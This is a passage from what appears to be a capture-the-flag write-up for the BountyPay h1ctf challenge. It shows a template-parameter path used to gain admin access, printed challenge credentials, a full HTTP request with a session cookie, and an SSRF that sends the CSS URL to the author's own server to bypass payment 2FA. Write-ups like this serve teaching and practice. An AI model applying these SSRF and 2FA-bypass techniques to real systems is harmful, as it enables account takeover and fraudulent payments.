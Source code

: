 ```
```
to avoid undefined username, tried to get login template and ticket template together. Then had everything working together and reported base64 encoded path.

```
decoded
/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab4

encoded
Lz90ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uJnRlbXBsYXRlW109dGlja2V0JnRpY2tldF9pZD0zNTgyI3RhYjQK
```
Got admin privileges and another credentials.

__username__: marten.mickos
__password__: h&H5wy2Lggj*kKn4OD&Ype

Finally, Marten Mickos account! 
Time to go back to https://app.bountypay.h1ctf.com/

7. Payments 2FA Bypass through SSRF
---------------------
Logged in with marten.mickos credentials and bypassing 2FA mentioned before (1), retrieved payments for 05/2020
{F858290}

Pressing pay button got new 2FA page.
{F858292}

Analyzing send challenge request
```
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-CL,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9
Upgrade-Insecure-Requests: 1

app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css
```
The request sends a css url, so tried the same request with my server url got request from remote server...and SSRF again!.

```
3.21.98.146 - - [07/Jun/2020 18:11:47] code 404, message File not found
3.21.98.146 - - [07/Jun/2020 18:11:47] "GET /test HTTP/1.1" 404 -
```
Reading something about css data exfiltration, i found something who helped me and created python script.
